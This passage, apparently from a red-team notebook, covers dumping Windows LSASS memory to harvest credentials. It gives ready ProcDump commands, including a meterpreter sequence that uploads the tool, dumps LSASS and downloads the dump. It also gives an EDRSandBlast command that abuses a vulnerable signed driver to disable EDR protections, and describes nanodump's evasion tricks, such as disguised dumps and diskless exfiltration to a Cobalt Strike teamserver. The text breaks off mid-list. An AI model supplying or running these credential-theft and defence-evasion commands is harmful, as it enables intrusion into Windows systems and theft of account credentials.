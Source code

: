 ###### Sysinternals' ProcDump

`ProcDump` is a command-line utility tool signed by Microsoft and part of the
`sysinternals` tools suite.

It can be used to dump the `LSASS` process with out raising antivirus alerts on
all Windows operating systems.

```bash
procdump.exe -accepteula -ma lsass.exe <PATH_LSASS_FILE>
rm <PATH_LSASS_FILE>

# Trough a meterpreter session
upload <PATH/procdump.exe> C:
execute -f "C:\procdump.exe" -a '-accepteula -ma lsass.exe <PATH_LSASS_DUMP>'
download <PATH_LSASS_DUMP>
rm <PATH_LSASS_DUMP>
```

###### EDRSandBlast

[`EDRSandBlast`](https://github.com/wavestone-cdt/EDRSandblast/) is a tool
written in `C` that weaponize a vulnerable signed driver to bypass `EDR`
detections (Kernel callbacks and `ETW TI` provider) and `LSASS` protections.
Multiple userland unhooking techniques are also implemented to evade userland
monitoring.

```bash
EDRSandblast.exe dump --usermode --unhook-method 5 --kernelmode [--driver <RTCore64.sys>] [--service <SERVICE_NAME>] [--nt-offsets <NtoskrnlOffsets.csv>] [--wdigest-offsets <WdigestOffsets.csv>] [-o | --dump-output <DUMP_FILE>]
```

Refer to the
[`EDR bypass with EDRSandBlast`](../Red_TeamEDR_bypass_with_EDRSandBlast.md)
note for more information on `EDRSandBlast`.

###### nanodump

[`nanodump`](https://github.com/helpsystems/nanodump) is a lightweight utility
that uses direct syscalls (relying on
[`SysWhispers2`](https://github.com/jthuraisamy/SysWhispers2)) to dump LSASS
memory. The LSASS dump is by default created with an invalid signature (to
avoid being detected as a memory dump) and with a reduced size (by ignoring
irrelevant `DLLs` from the LSASS memory address space).

`nanodump` can be used either as a standalone executable or a
`Beacon Object File (BOF)` through a `Cobalt Strike` `beacon`. if executed as
a `BOF`, the LSASS dump is not written to disk and will be uploaded to the
`Cobalt Strike` teamserver without touching disk.

A number of techniques are implemented by `nanodump`, with the goal of
bypassing `EDR` by playing around detection edge cases that may not be covered
by the encountered product:
  - Default to opening an handle on the LSASS process with the
    `PROCESS_QUERY_INFORMATION | PROCESS_VM_READ` access rights.
